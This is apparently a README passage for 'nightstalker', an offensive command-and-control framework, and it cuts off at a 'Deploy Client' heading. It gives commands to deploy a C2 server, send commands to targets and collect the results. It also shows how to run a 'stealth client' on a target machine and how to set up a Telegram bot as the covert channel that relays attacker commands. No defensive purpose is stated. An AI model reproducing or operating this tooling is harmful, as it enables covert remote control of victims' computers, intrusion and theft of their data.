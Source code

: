 ## 🚀 Quick Start

### Server Setup

```bash
# Start interactive C2 setup
nightstalker c2 deploy

# List active channels and targets
nightstalker c2 list

# Send command to target
nightstalker c2 send --target-id TARGET001 --command "whoami"

# Get command results
nightstalker c2 results --target-id TARGET001
```

### Client Setup

```bash
# Run C2 client on target
python -m nightstalker.c2.stealth_client --target-id TARGET001 --channel telegram --bot-token YOUR_BOT_TOKEN --chat-id YOUR_CHAT_ID
```

## 📱 Telegram Bot Setup

### 1. Create Telegram Bot

1. Message `@BotFather` on Telegram
2. Send `/newbot`
3. Follow instructions to create bot
4. Save the bot token

### 2. Get Chat ID

1. Add your bot to a chat/group
2. Send a message in the chat
3. Visit: `https://api.telegram.org/bot<YOUR_BOT_TOKEN>/getUpdates`
4. Find the `chat_id` in the response

### 3. Setup C2 Server

```bash
nightstalker c2 deploy
# Select option 1 (Telegram)
# Enter bot token and chat ID
```

### 4. Deploy Client
